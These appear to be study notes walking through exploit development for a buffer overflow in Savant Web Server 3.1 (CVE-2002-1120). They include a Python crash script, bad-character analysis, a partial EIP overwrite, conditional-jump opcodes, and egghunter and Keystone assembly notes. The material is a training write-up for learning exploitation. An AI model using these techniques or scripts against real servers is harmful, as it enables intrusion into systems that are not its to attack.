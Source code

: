 Some exploits do not leave sufficient exploit space to write shellcode. However, it's sometimes possible to write code to other parts of program memory that can be referenced by the limited exploit space.
- Space Restrictions
- Bad Characters
- Partial Instruction Pointer Overwrite

# Savant Web Server 3.1 Exploit
First, we get the server to crash. (Pre-installed on Windows client). Reference https://www.cvedetails.com/cve/CVE-2002-1120/

### Cause a Crash
1. Attach WinDbg to a Savant process
2. Create and run a python exploit 
```
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 260

  httpMethod = b"GET /"
  inputBuffer = b"\x41" * size
  httpEndRequest = b"\r\n\r\n"

  buf = httpMethod + inputBuffer +  httpEndRequest

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buf)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")
```
3. Trigger access violation, and immediately gaining EIP control

### Crash Analysis
Typically ESP points to our controlled buffer, where we can store shellcode, and would have a jump instruction like JMP ESP that would give us access to EIP
In this case, ESP points to our controlled buffer, but we only have 3 bytes for our shellcode.
> An attempt to increase the buffer size ends up changing the crash and losing EIP control

- The buffer is also null-byte terminated, meaning it is probably stored as a string (important).
- The 2nd DWORD on the stack points very close to our buffer (`03e0ea84` vs `03e0ea2c`)
- `dc` (dump with ASCII) on this address shows the GET request, some null bytes, then the A's

### Detect Bad Characters
Same process as usual, but in this exploit the program will not crash (not reach 260 bytes in length) if there is a bad char in the buffer. As a result, we should comment out blocks of lines and rerun to determine where the crash is happening (since we can view debugger output).
- Start with half, then narrow down to the line level, if there is a crash, then the uncommented lines are all good chars, else inspect char by char (tedious af)
- badchars = `0x00, 0x0A, 0x0D, 0x25`

# Gaining Code Execution
1. Determine exact offset of the EIP overwrite
	1. msf-pattern_create didn't work here due to changing the nature of the overflow... need to try manually (binary split search)
 2. Find an instruction to jump to with `load .narly` -> `!nmod`
 3. But we find that the only module included with the program is Savant itself, and it is preceded with a null byte, meaning it would break the exploit
### Partial EIP Overwrite
Remember how our value on the stack was null terminated? We can leverage that to reach Savant modules located in the 00XXXXXX range
1. Change script to only overwrite the first three bytes : `input buffer += b'\x60\x60\x60`, removing anything post EIP buffer as well
2. Locate an instruction in Savant code space that will jump to controllable overflow space.
	1. We don't have any space after our instruction on the stack (where ESP points), but the second value on the stack still points to the top of our input (the GET and subsequent overflow)
	2. This requires a POP 32, RET
	3. First we inspect the unassembled code at that address (the GET) to see if it will break the exploit, it does at `add byte ptr [eax],al` since EAX is the address 0x00000000.
	4. But, we can try to specifically pop the extra value from the stack into EAX to make it a valid address. (POP EAX, RET)
	5. `lm m savant` -> `s ADDR_START ADDR_END 58 C3`, using `msf-nasm_shell` to determine the opcodes 58 and C3 
	6. Input address of instruction into exploit code `inputBuffer += pack('<L', (ADDR_NO_0's))`
	7. `bp ADDR` : and test the new exploit, stepping through to ensure there are no access violations, but there is on a later `byte ptr [edi],ch` instruction :(

### Changing the HTTP Method
Taking a step back, we analyze the buffer where we are returning to, our HTTP GET, with `dc esp`. GET is post padded with a bunch of nulls up to a fixed length, showing that there is extra space to work with, but also suggesting that the HTTP method is never actually checked. 
We could place a short jump in its place to get to our buffer
- `nasm> jmp short XX` 
- Edit GET buffer in exploit with short jump opcode
- Set `bp`,  try the exploit, and `dc poi(@esp)` right before the return, (or just `t` through) but we realize that the jmp instruction was mangled and came in as `cb` instead of `eb`
	- Even though we tested bad chars earlier, input can be checked and managed differently in the program depending on which section of memory you are writing to, in this case the HTTP method is checked differently

### Using Conditional Jump
Since the traditional short jump doesn't work, we use a conditional jump instruction. For this specific case, we'll use JE (also called JZ) which checks the ZF flag. The ZF flag is the "zero flag" and will be set to 1 on a TEST instruction (and others) if the arithmetic being checked equals 0
- In reverse order, we need to jump if ZF is 1, test arithmetic to ensure ZF is 1, set a register to control our test. An instruction flow that matches this would be"
	- `xor ecx, ecx` : zero's out ECX (we could use any register)
	- `test ecx, ecx` : sets the ZF to 1
	- `je 0x15` : jumps 15 bytes if ZF
1. Run this through `msf-nasm_shell` and check for any bad characters, we see none except the nulls at the end of the jump. This isn't a problem though since the program will append null bytes for us anyway, so we can just leave them off.
2. Put into exploit script : `b'\x31\xc9\x85\xc9\x0f\x84\x0f + ' /'`. Be SURE to include the space before the '/' as this denotes the end of what would be the GET request
3. `bp` at the return instruction and run again, `u poi(@esp)` before the return to check if the instructions loaded correctly, and `r @zf` before the jump to ensure the condition is right
4. Take the jump and `u @eip` to ensure we ended up in the buffer space
5. `db @eip L100` -> `? FINAL_ROW_ADDR + LAST_CHAR_HEX_OFFSET - @eip` : which returns the amount of space for shellcode, in this case 251

# Egghunting (Finding Alternative Buffers)
Since 251 bytes is not enough for a robust shellcode, we look into ways to extend the buffer sent to the application
- Attempt 1, sending a large buffer in the body of the HTTP request, fails (application doesn't crash or crash changed)
- Attempt 2, send a large buffer after the HTTP request (after a `/r/n/r/n`), this succeeds but it doesn't go into our reachable stack location
With this buffer, we prepend an identifiable string that we can then search the program memory space with `s -a 0x0 L?80000000 babu_was_here` : this is our egg

### The Heap
- The address returned by the egg is not in our current stack. Its on the heap, as seen with `!address ADDRESS` extension in WinDbg
Processes can request heap space through the Windows heap manager by use of API calls like HeapAlloc, HeapFree, etc. These then call into native Windows function in `ntdll.dll`.
All processes get a new "Default Process Heap" at start, but new heaps can be requested by the process at runtime (through the heap API or with C calls malloc / free). This implementation is called NT Heap.
The heap is all dynamically allocated memory, so our buffer space cannot be pre-determined.

### Egghunter: Keystone Engine
Egghunter : a stage one payload that searches for a static string in memory, an egg, then jumps to that address.
Egghunters must be small to fit as a stage 1, fast to prevent process hanging, and robust to handle access violations. 
One way to build egghunter logic is to write the assembly, compile it, then open the program in IDA to get the opcodes. But this is tedious when constant corrections are needed. 

Now introducing **the Keystone Engine** : an assembler framework allowing us to write assembly code in a python script (or other language) and have it compile directly to machine code.
Install instructions here: https://github.com/keystone-engine/keystone/blob/master/docs/COMPILE-NIX.md , download source code from their website
terminal usage: `kstool x32 "add eax, ebx"`
python usage:
```
from keystone import *
CODE = (
	"start:
		xor eax, eax;
		...
		pop esi;"
)
ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
instructions = ""
for dec in encoding:
	instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")
print("Opcodes = (\"" + instructions + "\")")
```
[[LESSON]] : don't name your file `keystone.py` as this is the library name...
After producing shellcode with one of these tools, it can be verified with msf-nasm_shell

`StatusAccessViolationCode` 
`NTAccessCheckAndAUditAlarms`

